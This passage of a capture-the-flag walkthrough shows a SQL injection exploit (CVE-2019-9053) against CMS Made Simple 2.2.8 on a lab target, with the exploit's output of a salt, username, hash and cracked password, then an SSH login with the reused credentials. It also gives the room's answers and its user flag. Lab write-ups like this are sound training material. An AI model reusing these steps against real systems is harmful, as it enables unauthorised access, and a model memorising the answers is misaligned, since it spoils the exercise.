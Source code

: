 ```bash
Progress: 60080 / 87665 (68.53%)^C
```

This page is the default "CMS made simple" page, which is a tool for building and managing websites. At the bottom of the page, it is said that this is the 2.2.8 version -> might come in handy. I will try to see if i can find an exploit related to this management system :)

On exploit-db.com there is quite a few exploits for this software, but only one that matches this version : it is CVE-2019-9053, a SQL injection exploit.

This finally allows us to answer the next questions :  
3. What's the CVE you're using against the application? CVE-2019-9053  
4. To what kind of vulnerability is the application vulnerable? SQLI (For SQL injection)

I downloaded the exploit from exploit-db and ran it with rockyou.txt as a wordlist and magic : We got some credentials :)

```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret

```

Moreover these are Mitch's credentials, and we found out earlier that Mitch tends to reuse his questionable password.  
5. What's the password? secret  
And the most obvious thing to do now is to try and connect via ssh to the server using mitch's credentials.  
6. Where can you login with the details obtained? ssh

I am indeed able to connect via ssh, and the user flag is there :

```bash
ssh mitch@10.10.168.38 -p 2222
The authenticity of host '[10.10.168.38]:2222 ([10.10.168.38]:2222)' can't be established.
ED25519 key fingerprint is SHA256:iq4f0XcnA5nnPNAufEqOpvTbO8dOJPcHGgmeABEdQ5g.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:14: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.168.38]:2222' (ED25519) to the list of known hosts.
mitch@10.10.168.38's password:
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ ls
user.txt
$ cat user.txt
G00d j0b, keep up!
```
